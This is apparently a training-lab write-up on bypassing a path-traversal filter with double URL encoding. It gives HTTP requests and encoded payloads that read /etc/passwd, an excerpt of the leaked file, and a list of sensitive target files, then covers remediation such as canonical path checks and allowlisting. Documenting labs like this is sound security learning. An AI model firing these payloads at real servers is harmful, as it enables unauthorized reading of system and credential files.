




# File Path Traversal - Traversal Sequences Stripped with Superfluous URL-Decode


## Overview

This lab attempts to prevent path traversal attacks by filtering traversal sequences from user input before processing the request.

However, after performing the filtering, the application URL-decodes the input. This creates an opportunity for attackers to use double URL encoding to bypass the security filter and reconstruct traversal sequences during processing.

---

## Objective

The objective of this lab was to bypass the application's path traversal filtering mechanism and retrieve the contents of:

```text
/etc/passwd
```

using  URL encoding bypass technique.

---

## Lab Scenario

The lab description stated:

> The application blocks input containing path traversal sequences, then performs a URL-decode of the input before using it.


Because filtering occurred before the final URL decoding step, there was a possibility of bypassing the protection using encoded traversal sequences.

---

## Methodology

### Step 1: Identify the Vulnerable Parameter

After opening the application, I intercepted the image request using Burp Suite.

And, the request responsible for loading product images is:

```http
GET /image?filename=14.jpg
```


---

### Step 2: Test Standard Path Traversal

I first attempted a traditional traversal payload:

```text
../../../etc/passwd
```

The request failed and the application returned:

```text
No such file
```

which confirmed that traversal sequences was filtered.

**Payload**

```http
GET /image?filename=../../../etc/passwd
```




---

### Step 3: Test Single URL Encoding

Since the application performed URL decoding, I next attempted to URL encode the traversal characters.

Payload:

```text
..%2f..%2f..%2fetc%2fpasswd
```

However, the request still failed.

The application continued returning:

```text
No such file
```

which means, the single URL encoding was not sufficient to bypass the filter.




---

### Step 4: Analyze the Processing Logic

At this stage I considered the application's behavior:

1. Filter traversal sequences.
2. URL decode the input.
3. Use the resulting path.

If the application only filtered once and then decoded the payload afterward, double encoding could potentially recreate traversal sequences after the filtering stage.

---

### Step 5: Use Double URL Encoding

I encoded the traversal payload a second time.

Instead of ~   **../**

The final payload became:

```text
%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd
```

**Payload Used**

```http
GET /image?filename=%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd
```




---

### Step 6: Retrieve Sensitive File

After sending the double encoded payload through Burp Repeater, the server successfully returned the contents of:

```text
/etc/passwd
```

The response contained multiple Linux system accounts including:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
carlos:x:1202:1202:/home/carlos:/bin/bash
```

This confirmed successful exploitation of the vulnerability.

---

### Step 7: Complete the Lab

After confirming successful file disclosure, I sent the modified request, stopped interception, and refreshed the application.

The lab was automatically marked as solved as expected.



---

## Attack Flow

```text
User Requests Product Image
            ⇓
GET /image?filename=14.jpg
            ⇓
Standard Traversal Tested
../../../etc/passwd
            ⇓
   Blocked By Filter
            ⇓
Single URL Encoding Tested
            ⇓
      Still Blocked
            ⇓
Analyze Input Processing
            ⇓
Double URL Encoding Used
            ⇓
      %252e%252e%252f
            ⇓
Filter Misses Encoded Payload
            ⇓
Application Decodes Input
            ⇓
Traversal Sequence Reconstructed
            ⇓
  /etc/passwd Retrieved
            ⇓
        Lab Solved
```
---

## Root Cause

The vulnerability existed because:

- User-controlled file paths were trusted.
- Input was decoded after validation.
- Canonical path validation was absent.
- Blacklist-based filtering was used instead of secure path validation.

---

## Impact

### ▣ Arbitrary File Read

Attackers can access sensitive files located outside the intended directory.

such as :

```text
/etc/passwd
/etc/shadow
/etc/hosts
```

---

### ▣ Information Disclosure

Sensitive system information may be exposed, including :

- User accounts
- System configuration details
- Application secrets

---

### ▣ Credential Exposure

Configuration files may reveal:

- Database credentials
- API keys
- Cloud secrets
- Service account credentials

---

### ▣ Source Code Disclosure

Attackers may gain access to:

- Application source code
- Internal APIs
- Hidden endpoints
- Security logic

---

### ▣ Increased Attack Surface

Information gathered through file disclosure can facilitate:

- Privilege escalation
- Authentication bypass
- Remote code execution
- Lateral movement

---

## Security Recommendations

### ◐ Decode Before Validation

Always normalize and decode user input before applying security checks.

Incorrect Order:

```text
Filter → Decode
```

Correct Order:

```text
Decode → Validate → Process
```

---

### ◐ Avoid Blacklist Filtering

Blocking strings like ~  **../**  is not reliable.

Attackers can use:

- URL encoding
- Double encoding
- Unicode encoding
- Alternative separators

to bypass the filters

---

### ◐ Use Canonical Path Validation

Resolve the final path using :
**realpath()**

and verify it remains within the intended directory.

---

### ◐ Restrict File Access

Ensure all file requests remain within:

```text
/var/www/images/
```

or another approved directory.

---

### ◐ Implement Allowlisting

Only allow predefined image filenames.

like:

```text
1.jpg
2.jpg
3.jpg
```

Reject everything else.

---

### ◐ Apply Least Privilege

The web application should only have filesystem permissions required for normal operation.

---

## Key Takeaways

- Input should always be decoded before validation.
- Double URL encoding can bypass improperly ordered filters.
- Blacklist filtering is unreliable for preventing path traversal.
- Canonical path validation is a stronger security control. 

---

## Conclusion

In this lab, a File Path Traversal vulnerability was successfully exploited by taking advantage of the application's incorrect handling of URL-encoded input. The application filtered traversal sequences before performing URL decoding, allowing double-encoded traversal payloads to bypass validation.

By using the payload of:

```text
%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd
```

This lab highlights the dangers of validating encoded input before normalization and demonstrates why decoding, canonicalization, and strict path validation are essential security practices.